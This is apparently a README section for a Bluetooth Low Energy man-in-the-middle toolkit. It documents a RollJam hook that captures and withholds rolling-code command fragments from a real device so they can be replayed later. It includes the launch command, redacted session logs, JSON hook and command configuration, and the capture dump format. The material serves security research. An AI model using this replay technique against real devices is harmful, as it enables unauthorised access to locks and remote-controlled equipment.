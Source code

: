 Example hook functions.

## RollJam hooking helper

Some devices use special commands that couldn't be understand without knowing their secrets, but also make the use of some kind of rolling code mecanisms to prevent against replaying attacks.

To play with rolling code attacks in BLE, as it's the case for RollJam attack against remote controls using rolling code, a generic scripts hooking helper ``rolljam.js`` has been provided here.

To use it, you can launch the ``advertise.js`` script as follows with the ``-w`` command after configuring the devices characteristics, and configuring also the ``RollJam.js`` commands configuration files:

```bash
# node advertise.js -a devices/********ba6d_********BA6D-.adv.json -s devices/*******ba6d.srv.json -w rolljam.js 
[...]
 <<<<<<<<<<<<<<<< INITIALIZED >>>>>>>>>>>>>>>>>>>> 
Client connected: **:**:**:**:ce:78
>> Subscribe: **f0 -> **f2
>> Subscribe: **f0 -> **f3
>> Write:  **f0 -> **f1 : 3984****************************8ccd
[RollJam] Keeping 1st cmd key part 1: 3984****************************8ccd
[RollJam] Playing incomplete cmd: 3984
   ******ba6d:**f0 confirmed subscription state: **f2
   ******ba6d:**f0 confirmed subscription state: **f2
[...]
>> Write:  **f0 -> **f1 : 25***********************************2e
[RollJam] Keeping 1st cmd key part 2: 25***********************************2e
[RollJam] Playing incomplete cmd: 25
[...]
[RollJam] Keeping 2nd cmd key part 2: 25***************************ed
[RollJam] Playing 1st cmd key instead, part 2: 25******************************2e
Client disconnected: **:**:**:**:ce:78
```

To add the hook, please add the following lines in the characteristics you want to interact with:

```bash
{
        "uuid": "**f0",
        "characteristics": [
            {
                "uuid": "**f1",
                "properties": [
                    "read",
                    "write"
                ],
                "value": "0000000000000000000000000000000000000000",
                "descriptors": [
                    {
			[...]
                    }
                ],
                "hooks": {
                    "dynamicWrite": "RollJamWrite"
                },

```

To configure the command to hook, you can edit the ``RollJam.json`` in the ``hookFunctions`` directory as follows:

```bash
{ "commands" : 
	{ "3984" : { # substring of the command
			"to" : "3984", # to replace with this command (exemple with imcomplete command)
			"number" : 1 # command part 1
	},
	  "25" : {
	  		"to" : "25",
			"number" : 2 # command part 2
	  }
	}
}
```

The ``number`` field is an index of the command part/fragmentation number.

The 2nd session commands are kept in the ``dump/<device mac>.rolljam`` file as follows:

```bash
# cat dump/*********ba6d.rolljam 
2018.07.09 10:49:52.052 | < W | **f0 | **f1 | 39***********************************be
2018.07.09 10:49:53.514 | < W | **f0 | **f1 | 25***********************************56
```

And could be replayed after with GATTacker, or readapted for nRF connect with ``gattacker2nrf.js`` to kept them as macros in the application to be replayed also.
